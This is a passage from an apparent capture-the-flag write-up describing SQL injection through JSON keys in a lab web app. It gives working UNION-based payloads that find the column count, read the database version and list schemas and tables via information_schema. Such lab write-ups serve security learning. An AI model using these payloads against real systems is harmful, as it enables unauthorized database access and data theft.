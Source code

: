 Our payload will look like this:

```javascript
{"53GG2EF8' ORDER BY 1,2,3 -- -":"1"}
```                                                                                       

If we select 4 rows, the app will return us `Not found`, so the number of rows is 3. Now we can perform an injection. I've found that the second row is text, the third row is a float number, so we have to input our payloads into the second row. Now we don't need to the exist of the item, so we change the name to non-exists.

First of all, let's get a version of the database by providing `@@version` function.

Payload:

```Javascript
{"-1' UNION SELECT 1,@@version,3 -- -":"1"}
```

![Database version](/assets/hackthebox/shared/database_version.png)

And we got it. From now I used a payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#extract-database-names-table-names-and-column-names) to extract databases, tables and rows.

First, we have to get a name of the database used.

Payload:

```javascript
{"-1' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c),3 fRoM information_schema.schemata -- -":"1"}
```

![List databases](/assets/hackthebox/shared/databases.png)

Then, we have to list tables of that database.

Payload:

```javascript
{"-1' UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7c),3 fRoM information_schema.tables wHeRe table_schema='checkout' -- -":"1"}
```

![List tables](/assets/hackthebox/shared/db_tables.png)
